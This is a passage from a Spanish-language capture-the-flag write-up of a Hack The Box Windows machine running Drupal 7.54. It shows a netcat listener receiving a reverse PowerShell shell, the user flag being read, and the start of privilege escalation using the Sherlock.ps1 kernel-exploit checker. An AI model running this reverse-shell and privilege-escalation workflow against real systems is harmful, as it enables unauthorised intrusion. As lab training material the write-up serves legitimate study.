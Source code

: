 y ganamos acceso en una `powershell`.


```bash
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49349.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>
```

Nos dirigimos al directorio del usuario `dimitris` y visiualizamos la primera flag `user.txt`.

```cmd
cd Desktop
dir


    Directory: C:\Users\dimitris\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         19/3/2017   8:06 ??         32 user.txt                          


type user.txt
ba22fde1932d06eb76a163d312f921a2
PS C:\Users\dimitris\Desktop>
```


Logramos obtener unas contraseñas en texto claro.


## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Usaremos `sherlock.ps1` para detectar vias potenciales de escalar privilegios en el `kernel`. esta herramienta realiza un proceso similar a herramientas como `powerview` y `winpeas`.

* [https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)


Una vez tengamos el `script` si filtramos por `function`. podemos ver distintas opciones que podemos probar.

```bash
❯ cat Sherlock.ps1 | grep "function"
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function Get-CPUCoreCount {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
function Find-AllVulns {
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
```